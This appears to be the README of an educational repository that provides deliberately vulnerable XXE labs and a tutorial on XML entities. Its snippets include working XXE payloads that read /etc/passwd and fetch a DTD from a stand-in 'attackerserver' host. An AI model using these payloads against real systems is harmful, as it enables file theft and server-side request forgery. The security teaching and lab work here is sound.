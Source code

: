 # XXE Study

This repository contains various XXE labs set up for different languages and their different parsers.
This may alternatively serve as a playground to test with Vulnerability scanners / WAF rules / Secure Configuration settings.

## Available environments

| Language | Parser Used                             | App              |
| -------- | --------------------------------------- | ---------------- |
| Python   | eTree / lxml parser ( eTree uses lxml ) | Python-flask-xxe |
| PHP      | DOM parser                              | Php-Haboob-xxe   |
| Java     | JAXB                                    | Java-XXE-JAXB    |

## Quick Start

1. Install docker.
2. Install docker compose.
3. Clone the repository:
   `git clone https://github.com/HLOverflow/XXE-study.git`
4. Visit respective `Apps` directory of interest and run:
   `./start.sh`

## Intro

**What is XXE?**

Definition by OWASP

>  *XML External Entity* attack is a type of attack against an application that parses XML input. This attack occurs when **XML input containing a reference to an external entity is processed by a <u>weakly configured</u> XML parser**. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

source: https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

**Why study XXE?**

1. Ranked #4 in OWASP top 10.

   source: https://owasp.org/www-project-top-ten/

2. Ranked #15 as one of the most impactful vulnerabilities reported on HackerOne Bug Bounty Platform.

   source: https://www.hackerone.com/top-10-vulnerabilities

3. XXE's impact can be related to another impactful well-known vulnerability, Server-side Request Forgery (SSRF).

**Some Impact of XXE**

The following impacts can be demonstrated in the XXE lab set up and some examples have been provided in their respective `example` folders.

1. Arbitrary File Read
   1. Data ex-filtration of source codes / configuration files.
2. Server-side Request Forgery
   1. Exposure of internal services.
   2. Enumeration of internal services via "Port scanning".
   3. Stealing of cloud credentials via Meta-data instances.
3. Denial-of-service

## XML Essentials

### Document type definition (DTD)

**What is a DTD?**

> A DTD defines the valid <u>building blocks</u> of an XML document. It defines the document structure with a <u>list of validated elements and attributes</u>

source: https://en.wikipedia.org/wiki/Document_type_definition

**Minimal Syntax**

```xml
<!DOCTYPE rootnode [
	<!ENTITY test "hello world">
	<!ENTITY test2 "hello world2">
]>
<sample> &test; &test2;</sample>
```

Note: It has to be defined before any XML document node begin. This means that when exploiting XXE, we cannot inject a DTD in the middle of an XML. The syntax is also case-sensitive.

### ENTITY

1. **Internal Entity**

   Definition:

   ```xml-dtd
   <!ENTITY entityname "Hello">
   <!ENTITY entityname2 'World'>
   ```

   Usage:

   ```xml
   <sample>I would like to say &entityname; &entityname2;</sample>
   ```

2. **External Entity**

   Definition:

   ```xml-dtd
   <!ENTITY includeme SYSTEM "include.xml">
   <!ENTITY includeme2 SYSTEM "http://attackerserver/include.xml">
   ```

   Usage:

   ```xml
   <sample>
       <head>Header</head>
       <first>&includeme;</first>
       <second>&includeme2;</second>
   </sample>
   ```

3. **Parameter Entity**

   This particular entity is confusing. You may think of this as an entity whose value defines another definition.

   1. **Internal definition**

      Definition:

      ```xml-dtd
      <!ENTITY % param1 "<!ENTITY variable1 'hello world'>">
      ```

      Usage:

      Parameter entities are used **exclusively** within DTDs. They cannot be used directly within XML document. 

      ```xml-dtd
      <!ENTITY % param1 "<!ENTITY variable 'hello world'>">
      %param1;
      <!ENTITY trigger1 "I would like to say &variable; again.">
      ```

      The above definition would expand to the following during run-time:

      ```xml-dtd
      <!ENTITY % param1 "<!ENTITY variable 'hello world'>">
      <!ENTITY variable 'hello world'>
      <!ENTITY trigger1 "I would like to say &variable; again.">
      ```

      2 different usage within the document:

      ```xml
      <sample>
          <first>I would like to say &variable;</first>
          <second>&trigger1;</second>
      </sample>
      ```

   2. **External definition**

      External DTD file:

      ```dtd
      <!ENTITY callme SYSTEM "/etc/passwd">
      ```

      Definition:

      ```xml-dtd
      <!ENTITY % param1 SYSTEM "http://attackerserver/evil.dtd">
      %param1;
      ```

      The above definition would fetch the definition of "callme" from an external server during run-time to be expanded in the following form:

      ```xml-dtd
      <!ENTITY % param1 SYSTEM "http://attackerserver/evil.dtd">
      <!ENTITY callme SYSTEM "/etc/passwd">
      ```

      Vulnerable call from original XML:

      ```xml
      <sample>&callme;</sample>
      ```

## Great Works by Others

### More Open-source Labs

1. [c0ny1/xxe-lab](https://github.com/c0ny1/xxe-lab): A similar repository in chinese.
2. [jbarone/xxelab](https://github.com/jbarone/xxelab): PHP application with python XXE shell

### Some Blogs on XXE

1. [DepthSecurity: Exploitation](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection): Exploitation technique for PHP web.

### Payload Cheatsheets

1. [PayloadsAllTheThings/XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection): List of payloads to experiment on.